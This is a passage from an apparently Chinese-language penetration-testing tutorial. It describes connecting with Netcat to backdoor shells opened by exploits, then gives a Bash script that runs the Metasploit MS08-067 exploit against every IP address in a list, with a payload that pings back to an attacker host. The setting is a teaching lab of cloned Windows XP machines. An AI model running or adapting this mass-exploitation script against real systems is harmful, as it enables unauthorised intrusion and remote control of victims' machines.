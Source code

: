 1.  如果脚本在没有提供任何参数的情况下执行，脚本将输出相应的用法说明。该用法说明将指出脚本应当带有一个参数，指定一个包含目标 IP 地址列表的文本文件的文件名。

1.  执行时提供此参数后，一系列新的终端将开始弹出。这些终端将分别运行输入列表中每个 IP 地址的利用序列。

1.  原始执行终端将输出正在执行的进程列表，并指出每个终端上将创建一个后门。

1.  在每个终端中的利用序列完成后，可以使用 Netcat 连接到由有效载荷打开的远程服务：

![](img/00615.jpeg)

1.  在提供的示例中，连接到成功被利用的系统（IP 地址为 `172.16.69.140`）的 TCP 端口 `4444`，即可远程访问 `cmd.exe` 终端服务。

# 它是如何工作的…

Netcat 是一个功能强大的工具，可用于多种目的。虽然这是远程执行服务的有效方法，但不建议在生产系统中使用这种技术。因为 Netcat 打开的后门可以被任何能够与监听端口建立 TCP 连接的人访问。

# 带有 ICMP 验证的多线程 MSF 利用

本示例将展示如何使用 Bash 脚本在多个系统上利用单一漏洞，并通过 ICMP 流量验证每个系统的成功利用。此技术开销较小，且可以轻松用于收集可利用的系统列表。

# 准备就绪

要使用本食谱中演示的脚本，您需要访问多个系统，每个系统都有相同的漏洞，并且可以使用 Metasploit 进行利用。在提供的示例中，一台运行漏洞版本 Windows XP 的虚拟机被复制以生成三个 MS08-067 漏洞实例。有关设置 Windows 系统的更多信息，请参考 第一章《*安装 Windows Server*》中的相关内容，*入门*。此外，本节还需要使用文本编辑器（如 Vim 或 GNU nano）编写脚本。有关编写脚本的更多信息，请参考 第一章《*使用文本编辑器（Vim 和 GNU nano）*》中的相关内容，*入门*。

# 如何操作……

以下示例演示了如何使用 Bash 脚本同时利用单个漏洞的多个实例。这个脚本特别可以通过引用一个 IP 地址输入列表，来利用 MS08-067 NetAPI 漏洞的多个实例：

```
#!/bin/bash

if [ ! $1 ]; then echo "Usage: #./script <host file>"; exit; fi

iplist=$1

for ip in $(cat $iplist)
do
 gnome-terminal -x msfconsole -x 
  "use exploit/windows/smb/ms08_067_netapi; set RHOST $ip;
   set PAYLOAD windows/exec; set CMD cmd.exe /c
   ping 172.16.69.133 -n 1 -i 15; run"
   echo "Exploiting $ip and pinging"
i=$(($i+1))
done

```
